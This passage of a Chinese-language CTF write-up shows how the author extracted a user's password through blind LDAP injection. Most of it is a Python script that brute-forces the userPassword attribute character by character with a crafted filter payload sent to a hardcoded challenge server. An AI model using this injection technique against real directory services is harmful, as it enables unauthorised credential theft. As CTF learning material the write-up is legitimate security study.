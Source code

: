然后把默认属性的都试了一遍，后来根据hint说的是找属性，我怀疑不是自带属性，就想办法去找额外属性，发现找不到，就只能想办法注入密码：

#### 注入密码

找到了一篇2018年文章：https://0xukn.fr/posts/writeupecw2018admyssion/

```python
import  string,requests,sys
url = "http://47.106.172.144:2333/"

words = string.digits +string.ascii_uppercase+string.ascii_lowercase + "@.-"
def str2hexnum(str):
    hexhum=''
    for i in str:
        hexhum=hexhum+hex(ord(i))[2:]
    return hexhum
# print(str2hexnum('z'))
flag = ""
name = "ldapli)(userPassword:2.5.13.18:="
for i in range(40):
    for i in words:
        # print(i)
        p ="\\"+str2hexnum(i)
        tmp ="\\" + ''
        payload = name + p
        # print(payload)
        params = {"user":payload,"pass":"123"}
        # print(payload)
        res = requests.get(url=url,params=params)

        # if "用户不唯一" in res.text:
        #     print(payload)
        #     # print(res.text)
        #     name += i
        #     break
        # print(res.text[-20:])
        if "查询用户不唯一" in res.text:
            print(i)
            real = (chr(ord(i)-1))
            # print(res.text)
            flag += real
            print(flag)
            name += "\\" + str2hexnum(real)
            break
        if i == "-":
            print(name)
            sys.exit(payload)
        # tmp = i
```

还真能弄出来一个密码，是orange用户的密码hhh。。


